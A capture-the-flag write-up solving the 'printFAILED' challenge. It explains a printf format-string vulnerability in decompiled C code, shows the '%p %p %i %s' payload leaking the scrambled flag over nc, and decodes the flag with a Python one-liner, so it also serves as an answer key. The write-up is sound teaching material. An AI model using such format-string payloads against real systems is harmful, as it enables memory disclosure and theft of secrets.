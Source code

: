 # printFAILED

This challenge provided a binary file named ```printFAILED```. We can run it and it asks us the scrambled flag.
So we must provide a scrambled version of the flag to obtain the flag. To make things just a little more complicated, the flag is obtained from a file.

Opening the file in ghidra shows a simple binary with a ```main``` and a ```scramble``` functions. The scramble is very simple, consisting in adding 1 to each char.

```
void scramble(int param_1)

{
  int idx;
  
  idx = 0x0;
  while (idx < param_1) {
    flag[idx] = flag[idx] + '\x01';
    idx = idx + 0x1;
  }
  return;
}

```

The main function is also simple, and after some renaming and retyping it becomes even better:
```
int main(void)

{
  int result;
  FILE *fin;
  
  fin = fopen("flag.txt","r");
  fgets(flag,0x28,fin);
  scramble(0x27);
  puts("can you guess the scrambled flag?");
  fflush(stdout);
  fgets(guess,0x28,stdin);
  puts("you guessed: ");
  printf(guess,main,scramble,(ulong)FLAG_LEN,flag); // <--- printf Format Vuln here
  result = strcmp(guess,flag);
  if (result == 0x0) {
    puts("nice guess!");
  }
  else {
    puts("wrong");
  }
  return 0x0;
}
```

The command was added for the writeup. It explores the fact that ```printf``` first argument is the string format and not the content to be printed.
If this argument is controlled by an attacker, the attacker can has a wide range of techniques to read and write memory.

Considering the function as presented, it has 5 arguments: the format (user controlled), the main function, the scramble function, the flag length and then the scrambled flag. 

```
printf(guess,main,scramble,FLAG_LEN,flag);
```

The vulnerability allows a multitude of attacks, lets stick to the challenge. 
Providing ```%p %p %i %s``` will print 2 pointers, the length, and then the scrambled flag. If the scrambled flag has no ```0x00``` chars, it will print the entire flag.

The result is:
```
nc printf.sdc.tf 1337
can you guess the scrambled flag?
%p %p %i %s
you guessed:
0x555de903b86f 0x555de903b82a 40 tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~
wrong
```

We failed to provide the correct content, but we have the flag. A second try will yeld a different result:
```
can you guess the scrambled flag?
tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~
you guessed:
tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~nice guess!
```

A python oneliner will get us the flag:
```
''.join([chr(x-1) for x in b'tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~'])
```


